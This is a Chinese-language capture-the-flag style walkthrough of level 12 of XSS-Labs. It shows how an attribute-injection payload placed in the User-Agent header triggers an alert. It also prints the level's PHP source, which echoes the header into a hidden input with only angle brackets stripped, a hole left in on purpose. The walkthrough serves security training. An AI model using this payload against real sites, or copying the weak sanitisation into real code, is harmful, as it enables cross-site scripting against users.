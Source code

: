 ### User-Agent XSS

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第十二关**

查看源代码发现这次插入的是 `User-Agent` 头

![](https://pic1.imgdb.cn/item/6814723558cb8da5c8d68a9a.png)

继续使用上一关的 payload

```
User-Agent: " onclick=javascript:alert() type="text
```

![](https://pic1.imgdb.cn/item/681472e058cb8da5c8d68aac.png)

成功弹窗

![](https://pic1.imgdb.cn/item/6814730758cb8da5c8d68ab2.png)

看一下源代码

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level13.php?keyword=good job!"; 
}
</script>
<title>欢迎来到level12</title>
</head>
<body>
<h1 align=center>欢迎来到level12</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];		// 接收 User-Agent
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
<center><img src=level12.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```

